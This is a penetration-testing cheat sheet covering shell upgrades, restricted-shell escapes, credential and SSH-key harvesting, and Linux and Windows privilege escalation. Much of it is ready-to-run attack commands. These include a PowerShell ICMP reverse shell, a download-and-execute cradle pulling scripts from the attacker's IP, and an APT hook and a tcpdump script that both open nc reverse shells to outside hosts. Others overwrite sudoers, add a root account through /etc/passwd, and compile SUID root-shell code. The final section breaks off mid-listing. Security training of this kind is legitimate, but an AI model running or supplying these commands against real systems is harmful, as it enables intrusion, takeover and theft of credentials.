Let's say we have a webshell on the server ( probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell. 

**Example**

Webshell like

::

 http://IP/shell.php?cmd=id

If we try 

::

 echo password | su -c whoami

Probably will get

::

 standard in must be a tty

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input.

We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

::

 (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
 root

The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_

Restricted Shell
----------------

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from `Escaping Restricted Linux Shells <https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells>`_ , `Escape from SHELLcatraz <https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells>`_ 

Definition
^^^^^^^^^^
It limits a user's ability and only allows them to perform a subset of system commands. Typically, a combination of some or all of the following restrictions are imposed by a restricted shell:

* Using the 'cd' command to change directories.
* Setting or unsetting certain environment variables (i.e. SHELL, PATH, etc...).
* Specifying command names that contain slashes.
* Specifying a filename containing a slash as an argument to the '.' built-in command.
* Specifying a filename containing a slash as an argument to the '-p' option to the 'hash' built-in command.
* Importing function definitions from the shell environment at startup.
* Parsing the value of SHELLOPTS from the shell environment at startup.
* Redirecting output using the '>', '>|', ", '>&', '&>', and '>>' redirection operators.
* Using the 'exec' built-in to replace the shell with another command.
* Adding or deleting built-in commands with the '-f' and '-d' options to the enable built-in.
* Using the 'enable' built-in command to enable disabled shell built-ins.
* Specifying the '-p' option to the 'command' built-in.
* Turning off restricted mode with 'set +r' or 'set +o restricted 

Real shell implements restricted shells:

* rbash

  ::

   bash -r
   cd
   bash: cd: restricted

* rsh
* rksh

**Getting out of restricted shell**

Reconnaissance
^^^^^^^^^^^^^^

Find out information about the environment.

* Run env to see exported environment variables

* Run 'export -p' to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH ($PATH) and SHELL ($SHELL) variables are '-rx', which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell! 

 * If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...). 
 * If the PATH is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what's allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

Quick Wins
^^^^^^^^^^

* If '/' is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable
  ::

   export PATH=/bin:/usr/bin:/sbin:$PATH
   export SHELL=/bin/sh

  or if chsh command is present just change the shell to /bin/bash

  ::

   chsh
   password: <password will be asked>
   /bin/bash

* If we can copy files into existing PATH, copy
 
 ::

  cp /bin/sh /current/directory; sh

Taking help of binaries
^^^^^^^^^^^^^^^^^^^^^^^

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -> !/bin/sh
* gdb -> !/bin/sh
* more/ less/ man -> !/bin/sh
* vi -> :!/bin/sh : Refer `Breaking out of Jail : Restricted Shell <http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html>`_ and `Restricted Accounts and Vim Tricks in Linux and Unix <http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html>`_ 
* scp -S /tmp/getMeOut.sh x y : Refer `Breaking out of rbash using scp <http://pentestmonkey.net/blog/rbash-scp>`_ 
* awk 'BEGIN {system("/bin/sh")}'
* find / -name someName -exec /bin/sh \;
* tee

 :: 

  echo "Your evil code" | tee script.sh

* Invoke shell thru scripting language

 * Python

  ::

   python -c 'import os; os.system("/bin/bash")

 * Perl

  ::

   perl -e 'exec "/bin/sh";'

SSHing from outside
^^^^^^^^^^^^^^^^^^^
* Use SSH on your machine to execute commands before the remote shell is loaded:

 ::

  ssh username@IP -t "/bin/sh"

* Start the remote shell without loading "rc" profile ( where most of the limitations are often configured)
 
 ::

  ssh username@IP -t "bash --noprofile"






Gather information from files
-----------------------------

In case of LFI or unprivileged shell, gathering information could be very useful. Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_

Operating System
^^^^^^^^^^^^^^^^
::

  cat /etc/issue
  cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

/Proc Variables
^^^^^^^^^^^^^^^
::

 /proc/sched_debug	This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.
 /proc/mounts		Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located
 /proc/net/arp		Shows the ARP table.  This is one way to find out IP addresses for other internal servers.
 /proc/net/route	Shows the routing table information.
 /proc/net/tcp 
 /proc/net/udp  	Provides a list of active connections.  Can be used to determine what ports are listening on the server
 /proc/net/fib_trie	This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target's networking structure
 /proc/version	        Shows the kernel version.  This can be used to help determine the OS running and the last time it's been fully updated.

Each process also has its own set of attributes.  If we have the PID number and access to that process, then we can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it's PID.

::

 /proc/[PID]/cmdline	Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/environ	Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/cwd	Points to the current working directory of the process.  This may be useful if you don't know the absolute path to a configuration file.
 /proc/[PID]/fd/[#]	Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.

The information about Proc variables has been taken from `Directory Traversal, File Inclusion, and The Proc File System <https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>`_

Environment Variables
^^^^^^^^^^^^^^^^^^^^^

::

 cat /etc/profile
 cat /etc/bashrc
 cat ~/.bash_profile
 cat ~/.bashrc
 cat ~/.bash_logout

Configuration Files
^^^^^^^^^^^^^^^^^^^

* Apache Web Server : Helps in figuring out the DocumentRoot where does your webserver files are?

 ::

   /etc/apache2/apache2.conf
   /etc/apache2/sites-enabled/000-default 

User History
^^^^^^^^^^^^

::

  ~/.bash_history
  ~/.nano_history
  ~/.atftp_history
  ~/.mysql_history
  ~/.php_history
  ~/.viminfo

Private SSH Keys / SSH Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  ~/.ssh/authorized_keys : specifies the SSH keys that can be used for logging into the user account 
  ~/.ssh/identity.pub
  ~/.ssh/identity
  ~/.ssh/id_rsa.pub
  ~/.ssh/id_rsa
  ~/.ssh/id_dsa.pub
  ~/.ssh/id_dsa
  /etc/ssh/ssh_config  : OpenSSH SSH client configuration files
  /etc/ssh/sshd_config : OpenSSH SSH daemon configuration file


.. _unprivileged-shell-to-privileged-shell:

Unprivileged shell to privileged shell
======================================

Probably, at this point of time, we would have unprivileged shell of user www-data. If you are on Windows, there are particular set of steps. If you are on linux, it would be a good idea to first check privilege escalation techniques from g0tm1lk blog such as if there are any binary executable with SUID bits, if there are any cron jobs running with root permissions. 

If you have become a normal user of which you have a password, it would be a good idea to check sudo -l to check if there are any executables you have permission to run.

Windows Privilege Escalation
----------------------------

If you have a shell/ meterpreter from a windows box, probably, the first thing would be to utilize

SystemInfo
^^^^^^^^^^
Run system info and findout 

* Operating System Version
* Architecture : Whether x86 or x64.
* Hotfix installed

The below system is running x64, Windows Server 2008 R2 with no Hotfixes installed.
::

 systeminfo

 Host Name:                 VICTIM-MACHINE
 OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
 OS Version:                6.1.7600 N/A Build 7600
 OS Manufacturer:           Microsoft Corporation
 OS Configuration:          Standalone Server
 OS Build Type:             Multiprocessor Free
 Registered Owner:          Windows User
 Registered Organization:
 Product ID:                00496-001-0001283-84782
 Original Install Date:     18/3/2017, 7:04:46 ��
 System Boot Time:          7/11/2017, 3:13:00 ��
 System Manufacturer:       VMware, Inc.
 System Model:              VMware Virtual Platform
 System Type:               x64-based PC
 Processor(s):              2 Processor(s) Installed.
                            [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
                            [02]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2100 Mhz
 BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
 Windows Directory:         C:\Windows
 System Directory:          C:\Windows\system32
 Boot Device:               \Device\HarddiskVolume1
 System Locale:             el;Greek
 Input Locale:              en-us;English (United States)
 Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
 Total Physical Memory:     2.048 MB
 Available Physical Memory: 1.640 MB
 Virtual Memory: Max Size:  4.095 MB
 Virtual Memory: Available: 3.665 MB
 Virtual Memory: In Use:    430 MB
 Page File Location(s):     C:\pagefile.sys
 Domain:                    HTB
 Logon Server:              N/A
 Hotfix(s):                 N/A
 Network Card(s):           1 NIC(s) Installed.
                            [01]: Intel(R) PRO/1000 MT Network Connection
                                  Connection Name: Local Area Connection
                                  DHCP Enabled:    No
                                  IP address(es)
                                  [01]: 10.10.10.9


If there are no Hotfixes installed, we can visit 

::

 C:\Windows\SoftwareDistribution\Download

This directory is the temporary location for WSUS. Updates were downloaded here, doesn't mean were installed. Otherwise, we may visit 

::

 C:\Windows\WindowUpdate.log 

which will inform if any hotfixes are installed.

Metasploit Local Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Metasploit local_exploit_suggester : The module suggests local meterpreter exploits that can be used. The exploits are suggested based on the architecture and platform that the user has a shell opened as well as the available exploits in meterpreter.

  .. Note :: It is utmost important that the meterpreter should be of the same architecture as your target machine, otherwise local exploits may fail. For example. if you have target as windows 64-bit machine, you should have 64-bit meterpreter.

Sherlock and PowerUp Powershell Script
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* `Sherlock <https://github.com/rasta-mouse/Sherlock>`_ PowerShell script by rastamouse to quickly find missing software patches for local privilege escalation vulnerabilities. If the Metasploit local_exploit_suggester didn't resulted in any exploits. Probably, try Sherlock Powershell script to see if there any vuln which can be exploited.

* `PowerUp <https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc>`_ : PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

The above can be executed by 

::

 view-source:10.10.10.X/shell.php?cmd=echo IEX (New-Object Net.WebClient).DownloadString("http://YourIP:8000/Sherlock.ps1"); | powershell -noprofile -

 We execute powershell with noprofile and accept the input from stdin

Windows Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^
`Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

::

 [-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.

Possibly, migrate into a new process using post/windows/manage/migrate

Windows Kernel Exploits
^^^^^^^^^^^^^^^^^^^^^^^

`Windows Kernel Exploits <https://github.com/SecWiki/windows-kernel-exploits>`_ contains most of the compiled windows exploits. One way of running these is either upload these on victim system and execute. Otherwise, create a smb-server using Impacket

::

 usage: smbserver.py [-h] [-comment COMMENT] [-debug] [-smb2support] shareName sharePath

 This script will launch a SMB Server and add a share specified as an argument. You need to be root in order to bind to port 445. No authentication will be enforced. Example: smbserver.py -comment 'My share' TMP /tmp

 positional arguments:
   shareName         name of the share to add
   sharePath         path of the share to add


Assuming, the current directory contains our compiled exploit, we can

::

 impacket-smbserver <sharename> `pwd`
 Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

 [*] Config file parsed
 [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
 [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
 [*] Config file parsed
 [*] Config file parsed
 [*] Config file parsed

Once, smbserver is up and running, we can execute code like

::

 view-source:VictimIP/shell.php?cmd=\\YourIP\ShareName\ms15-051x64.exe whoami

 *Considering shell.php is our php oneliner to execute commands.

ICMP Shell
^^^^^^^^^^

Sometimes, inbound and outbound traffic from any port is disallowed and only ICMP traffic is allowed. In that case, we can use `Simple reverse ICMP Shell <https://github.com/inquisb/icmpsh>`_ However, this requires the executable to be present on the system. There's a powershell version of `ICMP Reverse Shell <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>`_ Sometimes, probably, we can execute powershell code on the machine. In that case, we can use the one-liner powershell code to execute the shell.

::

 powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"


The above code is basically a reduced version of the powershell version of ICMP and have a limited buffer (which means commands whose output is greater than the buffer, won't be displayed!). Now, there's a painful way of transferring files to the victim system which is

* Convert the file/ code which needs to be transferred in to base64. (If possible, remove all the uncessesary code/ comments, this would help us to reduce the length of the base64)
* Utilize the `Add-Content cmdlet <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-5.1>`_ to transfer the file to the victim system. Do, remember to transfer the data in chunks as we have limited buffer! Probably, we have to run the below command twice or thrice to transfer the whole base64-encoded chunk.
 
 ::
  
  Add-Content <filename> "Base64 encoded content"

* Once the base64-encoded data is transferred, we can utilize `certutil <https://technet.microsoft.com/en-us/library/cc732443(v=ws.11).aspx>`_ from Microsoft to decode the base64-encoded to normal file.

 ::

  certutil <-decode/ -encode> <input file> <output file>
  -decode Decode a Base64-encoded file
  -encode Encode a file to Base64

* Now, we can execute the file (assuming powershell ps1 file) to get the full powershell ICMP reverse shell with buffer managment so, we would be able to get full output of the commands.

* Now, most of the time after getting the intial shell, probably, we would have figured out user credentials ( let's say from www-data or iisapppool user to normal/ admin user credentials. ) At this point of time, we can use the below code to create a PSCredential.

 ::

  $username = 'UsernameHere';
  $password = 'PasswordHere';
  $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
  $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword 

* Once, we have created a PSCredential, we can use `Invoke-Command <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command>`_  to execute command as that user.

  ::
   
   Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {Command to be executed}
   -ComputerName localhost is required as the code is to be executed on localhost, without -ComputerName, InvokeCommand doesn't work.

* Possibly, we can execute the ICMP Shell code to get the shell as the new user.

* One problem, which we gonna face is, when we are running ICMP Shell with different users for example, first with IISWebpool, then with User1, then with user2, we would get multple times IISWebpool as that powershell process (on UDP) is still running. One way to this is Just before launching a new ICMP shell as a different user. 
  
  * Check powershell processes with Show-Process

   ::

    Show-Process -Name *power* "
  
  *  Note down  the PID 
  * Execute shell as the different user 
  * Stop-Process the previous PID






Privilege escalation from g0tm1lk blog
--------------------------------------

Once, we have got the unprivileged shell, it is very important to check the below things

* Are there any binaries with Sticky, suid, guid.
* Are there any world-writable folders, files.
* Are there any world-execuable files.
* Which are the files owned by nobody ( No user )
* Which are the files which are owned by a particular user but are not present in their home directory. (Mostly, the users have files and folders in /home directory. However, that's not always the case.)
* What are the processes running on the machines? (ps aux). Remember, If something like knockd is running, we would come to know that Port Knocking is required.
* What are the packages installed? (dpkg -l). Maybe some vulnerable application is installed ready to be exploited (For example: chkroot version 0.49).
* What are the services running? (netstat -ln)
* Check the entries in the crontab!


What "Advanced Linux File Permissions" are used?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sticky bits, SUID & GUID

::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
Where can written to and executed from?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A few 'common' places: /tmp, /var/tmp, /dev/shm

::

  find / -writable -type d 2>/dev/null      # world-writeable folders
  find / -perm -222 -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type f 2>/dev/null     # world-writeable files

  find / -perm -o x -type d 2>/dev/null     # world-executable folders
  find / -perm -o x -type f 2>/dev/null     # world-executable files

  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

* If the below files are world writable, we could do privilege escalation.

 * /etc/passwd 

  * Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information. 
  * For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow. 
  * Also, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled. 
  * If passwordless accounts are disabled, you can put the hash of a password of your choice. You can use the crypt function to generate password hashes, for example

   ::
    
      perl -le 'print crypt("foo", "aa")' to set the password to foo. 

  * It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

Any "problem" files?
^^^^^^^^^^^^^^^^^^^^

Word-writeable, "nobody" files

::

  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
  find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Find files/ folder owned by the user
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

::

  find / -user username 2> /dev/null
  find / -group groupname 2> /dev/null


.. Tip :: Find files by wheel/ adm users or the users in the home directory.

Execution of binary from Relative location than Absolute
--------------------------------------------------------
If we figure out that a suid binary is running with relative locations ( for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home" )( figured out by running strings on the binary ). The problem with this is, that it’s trying to execute a file/script/program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

so we can create a file in temp:

::

  echo "/bin/sh" >> /tmp/id
  chmod +x /tmp/id

:: 

  www-data@yummy:/tmp$ echo "/bin/sh" >> /tmp/id
  www-data@yummy:/tmp$ export PATH=/tmp:$PATH
  www-data@yummy:/tmp$ which id
  /tmp/id
  www-data@yummy:/tmp$ /opt/backjob
  whoami
  root
  # /usr/bin/id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is: /opt/backjob switches user context to root (as it is suid) and tries to run “scp or id” -> Linux searches the filesystem according to its path (here: in /tmp first) -> Our malicious /tmp/scp or /tmp/id gets found and executed as root -> A new bash opens with root privileges.

If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

::

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

It is important to see .bash_profile file which contains the $PATH

Symlink Creation
----------------

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

::

 ln -s /etc/shadow /home/xxxxxx/example.conf
 ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

::

 readExampleConf /home/xxxxxxx/example.conf
 <Contents of shadow or id_rsa

Directory Symlink
^^^^^^^^^^^^^^^^^

Let's see what happens when we create a symlink of a directory

::

 ln -s /etc/ sym_file
 ln -s /etc/ sym_fold/

Here the first one create a direct symlink to the /etc folder and will be shown as 

::

 sym_file -> /etc/

where as in the second one ( ln -s /etc/ sym_fold/ ), we first create a folder sym_fold and then create a symlink

::

 sym_fold:
 total 0
 lrwxrwxrwx 1 bitvijays bitvijays 5 Dec  2 19:31 etc -> /etc/

This might be useful to bypass some filtering, when let's say a cronjob is running but refuses to take backup of anything named /etc . In that case, we can create a symlink inside a folder and take the backup. 

MySQL Privileged Escalation
---------------------------

If mysql ( version 4.x, 5.x ) process is running as root and we do have the mysql root password and we are an unprivileged user, we can utilize `User-Defined Function (UDF) Dynamic Library Exploit <http://www.0xdeadbeef.info/exploits/raptor_udf.c>`_ . A blog named `Gaining a root shell using mysql user defined functions and setuid binaries <https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/>`_  

More Information
^^^^^^^^^^^^^^^^

* The MySQL service should really not run as root. The service and all mysql directories should be run and accessible from another account - mysql as an example.

* When MySQL is initialized, it creates a master account (root by default) that has all privileges to all databases on MySQL. This root account differs from the system root account, although it might still have the same password due to default install steps offered by MySQL.

* Commands can be executed inside MySQL, however, commands are executed as the current logged in user.

::

  mysql> \! sh

Cron.d
------

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

or

::

 int main(void) {
 setgid(0); setuid(0);
 system("/bin/bash"); }

Unattended APT - Upgrade
------------------------

If we have a ability to upload files to the host at any location (For. example misconfigured TFTP server) and APT-Update/ Upgrade is running at a set interval (Basically unattended-upgrade or via-a-cronjob), then we can use APT-Conf to run commands

DPKG
^^^^

Debconf configuration is initiated with following line. The command in brackets could be any arbitrary command to be executed in shell.

::

 Dpkg::Pre-Install-Pkgs {"/usr/sbin/dpkg-preconfigure --apt || true";};
 
There are also options

::

 Dpkg::Pre-Invoke {"command";};
 Dpkg::Post-Invoke {"command";};

They execute commands before/after apt calls dpkg. Post-Invoke which is invoked after every execution of dpkg (by an apt tool, not manually);

APT
^^^

* APT::Update::Post-Invoke-Success, which is invoked after successful updates (i.e. package information updates, not upgrades);

* APT::Update::Post-Invoke, which is invoked after updates, successful or otherwise (after the previous hook in the former case).

To invoke the above, create a file in  /etc/apt/apt.conf.d/ folder specifying the NN<Name> and keep the code in that

For example:

::

 APT::Update::Post-Invoke{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f";};

When the apt-update would be executed, it would be executed as root and we would get a shell as a root.

SUDO -l Permissions
-------------------

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find

nmap suid
^^^^^^^^^

:: 

  nmap --script <(echo 'require "os".execute "/bin/sh"')

or

:: 

  nmap --interactive

tee suid
^^^^^^^^

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

:: 

  temp.sh
  echo "example_user ALL=(ALL) ALL" > /etc/sudoers 

or 

::

  chmod +w /etc/sudoers to add write properties to sudoers file to do the above

and then

:: 

  cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

which will add contents of temp.sh to tidyup.sh. ( Assuming tidyup.sh is running as root by crontab )

tcpdump
^^^^^^^

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

:: 

  id
  /bin/nc 192.168.110.1 4444 -e /bin/bash

Execute the command

:: 

  sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

where
 
:: 

  -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

  -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

  -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

  Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

  And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.

zip
^^^

::

  touch /tmp/exploit
  sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"

find
^^^^

If find is suid, we can use

::

 touch foo
 find foo -exec whoami \;

Here, the foo file ( a blank file ) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in `Linux PrivEsc: Abusing SUID <https://www.gracefulsecurity.com/linux-privesc-abusing-suid/>`_




More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.


Unix Wildcards
--------------

The below text is directly from the `DefenseCode Unix WildCards Gone Wild <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

Chown file reference trick (file owner hijacking)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

:: 

  [root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

:: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

Let's see who owns files now...

:: 

  root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
